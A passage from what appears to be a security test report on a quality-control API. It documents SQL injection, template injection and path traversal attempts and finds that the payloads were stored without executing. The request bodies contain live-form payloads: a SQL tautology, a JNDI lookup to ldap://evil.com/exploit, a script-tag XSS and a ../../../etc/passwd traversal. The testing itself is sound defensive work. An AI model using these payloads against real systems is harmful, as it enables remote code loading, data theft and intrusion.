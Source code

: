 #### SQL Injection Storage Evidence:
```json
{
  "id": 12,
  "testerId": "admin\" OR \"1\"=\"1\" --",
  "testNotes": "SQL injection attempt in tester ID field",
  "createdAt": "2025-08-21T18:09:17.695Z"
}
```

---

## TEMPLATE INJECTION TEST RESULTS

### Test 7: Server-Side Template Injection

#### Template and JNDI Injection Attempts
```bash
POST /api/audit-logs
{
  "batchId": "TEMPLATE_INJECTION",
  "action": "{{7*7}}",
  "details": "${jndi:ldap://evil.com/exploit}",
  "performedBy": "<template><script>alert(\"TEMPLATE_XSS\")</script></template>"
}
```

**🟡 FINDING: TEMPLATE INJECTION PAYLOADS STORED**
- **Status**: ⚠️ **STORED WITHOUT EXECUTION**
- **Template Expressions**: Mathematical expressions not evaluated
- **JNDI Payloads**: LDAP injection attempts stored as text
- **Data Contamination**: Audit logs contaminated with injection attempts

---

## FILE PATH INJECTION TEST RESULTS

### Test 8: Directory Traversal Attempts

#### Path Traversal in Test Type Field
```bash
POST /api/quality-tests
{
  "batchId": "FILE_INCLUSION",
  "testType": "../../../etc/passwd"
}
```

**🟡 FINDING: PATH TRAVERSAL PAYLOADS STORED**
- **Status**: ⚠️ **STORED WITHOUT EXECUTION**
- **File Access**: No server-side file inclusion detected
- **Data Storage**: Path traversal attempts persist in quality test records
- **Impact**: Quality control data contaminated with file system paths

---